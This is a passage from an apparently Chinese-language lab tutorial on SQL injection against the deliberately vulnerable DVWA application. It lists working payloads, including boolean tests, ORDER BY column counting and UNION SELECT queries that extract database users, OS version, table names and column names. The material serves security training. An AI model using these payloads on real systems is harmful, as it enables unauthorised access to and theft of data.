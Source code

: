 修改 ```/etc/php.ini``` 配置文件中的 ```allow_url_include=On```。


## SQL 注入

首先在 ```DVWA Security => Security Level``` 中設置，將安全級別設置為 ```LOW``` ，然後在 ```SQL Injection``` 中進行測試；其中 User ID 為 1~5，對應的代碼在 ```vulnerabilities/sqli/source``` 中，分別對應了不同的安全等級。

### Low

例如，對於 ```LOW``` 級別，對應的 SQL 代碼如下。

{% highlight text %}
SELECT first_name, last_name FROM users WHERE user_id = '$id';
{% endhighlight %}

簡單看下常見的 SQL 注入。

{% highlight text %}
----- 正常，1
SELECT first_name, last_name FROM users WHERE user_id = '1';

----- 判斷是字符型還是數字型，1' or '1'='1，輸出所有列，為字符型
SELECT first_name, last_name FROM users WHERE user_id = '1' or '1'='1';

----- 查看SQL中查詢列數，1' ORDER BY N -- ，N從1遞增開始嘗試；另外，注意最後有個空格
SELECT first_name, last_name FROM users WHERE user_id = '1' ORDER BY 1 -- ';

----- 確定字段的顯示順序，1' UNION SELECT 1,2 #
SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT 1,2 #;

----- 獲取當前用戶以及庫信息，1' AND 1=2 UNION SELECT user(),database() #
SELECT first_name, last_name FROM users WHERE user_id = '1' AND 1=2 UNION SELECT user(),database() #

----- 獲取操作系統信息，1' AND 1=2 UNION SELECT 1,@@global.version_compile_os FROM mysql.user #
SELECT first_name, last_name FROM users WHERE user_id = '1' AND 1=2 UNION
    SELECT 1,@@global.version_compile_os FROM mysql.user #;

----- 獲取庫中的表名稱，如下僅顯示註冊的內容
1' UNION SELECT 1,group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() #

----- 獲取表中的列名稱
1' UNION SELECT 1,group_concat(column_name) FROM information_schema.columns WHERE table_name='users' #
{% endhighlight %}



實際上，在確認了列數之後，就可以通過 ```vesion()```、```database()``` 等函數查看系統信息，也可以執行查詢 SQL 語句。







{% highlight text %}
{% endhighlight %}
